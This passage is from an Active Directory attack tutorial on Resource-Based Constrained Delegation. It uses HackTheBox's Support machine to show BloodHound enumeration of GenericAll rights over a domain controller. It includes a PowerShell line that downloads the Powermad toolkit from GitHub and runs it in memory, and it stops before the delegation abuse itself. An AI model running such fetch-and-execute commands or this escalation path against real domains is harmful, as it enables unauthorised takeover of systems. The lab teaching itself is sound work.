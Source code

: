 * Uses the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute
* Configured on the **target** object (the resource being accessed)
* **Computer-to-computer** delegation only

If you want to learn more about the attack, [Microsoft offers some documentation](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview) about it

## 2. Scenario

In order to explain this attack, we will use the [Support](https://www.hackthebox.com/machines/support
) machine of ***HackTheBox***




### 2.1 Enumerating

The easiest way to enumerate RBCD misconfigurations is using **BloodHound**. Mark your current user as owned and perform the **"Shortest Paths from Owned Principles"** query.

::github{repo="SpecterOps/BloodHound"}


<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2Fyxfqm0qieV9xXw47hJxw%2Fimage.png?alt=media&#x26;token=8da120cd-982c-4fa1-8678-1e83d664bb9e" alt=""><figcaption></figcaption></figure>



In a *Resource-Based Constrained Delegation* scenario we will see that a user or group has *GenericAll / GenericWrite / Owns / WriteDacl* **ACL** over a computer

Any of these permissions can be developed onto the *Resource-Based Constrained Delegation* like in this case the group `SHARED SUPPORT ACCOUNTS` has *GenericAll* over the computer `DC.SUPPORT.HTB`

## 3. Exploitation from Windows

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FmNQTTBwJsZuiLZ1u8cIR%2Fimage.png?alt=media&#x26;token=5f6cbf6c-2533-4d02-bcc9-61901f101b17" alt=""><figcaption></figcaption></figure>

First we will need to download and import `PowerMad.ps1`

#### 3.1 Downloading toolset

> **PowerMad** is a **PowerShell toolkit** for Active Directory that enables **machine account creation and DNS record manipulation** using standard domain user privileges for `RBCD` attacks.

::github{repo="Kevin-Robertson/Powermad"}

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
Import-Module Powermad.ps1
```

And `PowerView.ps1`

> **PowerView** is a **PowerShell reconnaissance tool** for Active Directory that enables **permission enumeration, object querying, and attack path discovery** through extensive AD property and ACL analysis.
